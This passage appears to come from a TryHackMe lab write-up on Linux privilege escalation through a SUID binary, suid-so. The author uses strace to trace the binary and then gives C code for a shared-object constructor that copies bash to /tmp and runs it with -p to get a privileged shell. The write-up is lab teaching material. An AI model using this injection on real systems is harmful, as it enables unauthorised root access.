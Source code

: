 ```bash
TCM@debian:~$ 
TCM@debian:~$ /usr/local/bin/suid-so
Calculating something, please wait...
[=====================================================================>] 99 %
Done.
TCM@debian:~$ 
```
It has both the SUID and SGID environment variables set and running the file it shows just Calculating and nothing much
To see it in action, we can use the command `strace` to check actually what's happening 

It troughs a bunch process but we filter out wiht grep command and there is one which is outtranding 

![Alt text](/assets/img/tryhackme/ln/ln48.png)

So we create a file so that when that process run it founds out the file and tricks a malicious activity

```c
#include <stdio.h>
#include <stdlib.h>

static void inject()__attribute__((constructor));
void inject() {
  system("cp /bin/bash /tmp/bash && chmod +x /tmp/bash && /tmp/bash -p");
}
```

after saving the file we copile it and run
![Alt text](/assets/img/tryhackme/ln/ln49.png)
